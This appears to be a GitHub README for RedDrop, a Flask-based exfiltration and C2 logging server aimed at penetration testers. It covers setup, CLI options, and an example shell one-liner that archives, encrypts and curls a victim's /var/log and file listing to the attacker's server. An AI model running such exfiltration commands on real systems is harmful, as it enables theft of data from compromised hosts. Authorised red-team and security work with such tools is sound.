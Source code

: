 ![Red Drop](docs/RedDrop.png)
# RedDrop Exfil Server
RedDrop Exfil Server is a Python Flask Web Server for Penetration Testers, Red Teamers, and Security Professionals which features:
- [File Upload](docs/FileUpload.md)
- [Automatic Payload Processing](docs/PayloadProcessing.md)
- [Automatic Archive Extraction](docs/ArchiveExtraction.md)
- [JSON Logging](docs/JSONLogging.md)
- [Configurable Options](docs/Configurations.md)

This software is intended to be used as an a rudementary C2 endpoint for capturing web request data in various scenarios. Some examples may include:
- A blind command injection vulnerability
- An XSS attack where a quick and dynamic web request logging server is needed
- A situation where remote shell access has been obtained and a verbose-logging web-based exfiltration server is desired

## Demo
[![Demo](https://img.youtube.com/vi/x9KmGCfyyZ0/0.jpg)](https://www.youtube.com/watch?v=x9KmGCfyyZ0)
---

**This project is still in development and some features may be buggy. If you run into problems, please open an Issue!**

### A note on security
This software should not be left generally accessible to the broader Internet. It is built with what some might consider an Arbitrary File Upload vulnerability by intention, and will accept and save files to the local disk without authorization or authentication. Due diligence should be taken to ensure that the system this software is deployed to is secured properly. A few recommendations:
- Place a Reverse Proxy to route and block traffic to this web application
- Whitelist your target's IP space
- Don't auto extract archives without understanding my filtering method

## Quick Start
### Docker
```bash
docker run -t -v "$PWD/uploads:/reddrop/uploads" -v "$PWD/logs:/reddrop/logs" -p "80:80" -n reddrop cyberbutler/reddrop-exfil-server -h
```
### PipEnv
```bash
pip install --user pipenv
pipenv install
pipenv shell
python reddrop-server.py -h
```

### Options
```bash
python reddrop-server.py -h

usage: reddrop-server.py [-h] [--host HOST] [--port PORT] [-c CONFIG] [--dump-config] [--debug] [-p {hex,openssl-aes256-pbkdf2,gzip,b64}]
                         [-A | --auto-process | --no-auto-process] [--auto-extract-tar]
                         [--encryption-password PROCESSOR_ARGUMENTS.OPENSSL-AES256-PBKDF2.PASSWORD]

                      +:                     
                    .*##-                    
                   :##**#+                   
                  +#*****##:                 
                :##********#+                
               =#***********#+               
              =#******#******#*              
            .+#******#-*#*****##-            
           -#******#*.  =#******#*           
          +#******#+     :##*****##:         
        .*#*****##-        +#******#=        
       :#******#+.          -#******#+       
      -#******#-             :##*****#*.     
     +#******#:               .*#*****##:    
   :##*****#*.                  =#******#+   
    *#****#-                     .*#****#-   
   +#***##.                        =#***##:  
  +#****##.                        +#*****#: 
 +#****##.                          =#*****#.
:#*****#.                            ******#=
*#******         Red    Drop         -#******
#******+                             :#*****#
#*******                             -#*****#
*#*****#.                            +*******
-#*****#*                           -#*****#=
 *#*****#*.                        =#******#.
  *#******#=.                    -*#******#- 
   +#*******#*-               :+##******##:  
    -##*******##*+=-:...::-=+##********#*.   
      -*#**********#######***********#+:     
        -*#***********************##+.       
          .=+##***************##*=:          
              :-=+**######**+=:              

     A Webserver for File and Data Exfiltration.
        Author: @cyberbutler/@thecyberbutler

optional arguments:
  -h, --help            show this help message and exit
  --host HOST, -H HOST  The host IP Address to bind to (default: 0.0.0.0)
  --port PORT, -P PORT  The port to bind to (default: 80)
  -c CONFIG, --config CONFIG
                        YAML config file path (default: None)
  --dump-config         Dump the configuration settings as YAML (default: False)
  --debug               Enable Flask's Debug Mode (default: False)
  -p {hex,openssl-aes256-pbkdf2,gzip,b64}, --processor {hex,openssl-aes256-pbkdf2,gzip,b64}
                        Specify a processor to use. This flag can be used more than once to define multiple process_list functions. Use this
                        flag in the order in which you wish to process received data (default: [])
  -A, --auto-process, --no-auto-process
                        Automatically run processors based on detected data. This option is enabled by default, but should be disabled (--no-
                        auto-process) when you receive output you don't expect. Such as in the case of Base64 decoding being run on output that
                        is not Base64 encoded. Instead, force the process with the `-p` flag. (default: True)
  --auto-extract-tar, -x
                        Auto extract TAR archives received by the server. (default: False)
  --encryption-password PROCESSOR_ARGUMENTS.OPENSSL-AES256-PBKDF2.PASSWORD
                        The password used to decrypt/encrypt. (default: EncryptMe)

Far more configuration options exist which must be specified in Environment Variables, use `--dump-config` to see all of the options

```

### Examples
#### Exfiltrating a Tar archive and command output from a Linux system
```bash
tar cz /var/log | base64 | xxd -ps | gzip | openssl enc -aes-256-cbc -pass 'pass:EncryptMe' -e -a -pbkdf2 | curl 172.17.0.1$PWD -F 'logs=@-' -F "listing=`ls -al * | gzip | base64`"
```

![example-screenshot.png](docs/example-screenshot.png)

## Todo
- [ ] Greater documentation of techniques using this web server
- [ ] Chunked File Upload handling and example commands
- [ ] More Processing modules
- [ ] Expand archive extraction functionality
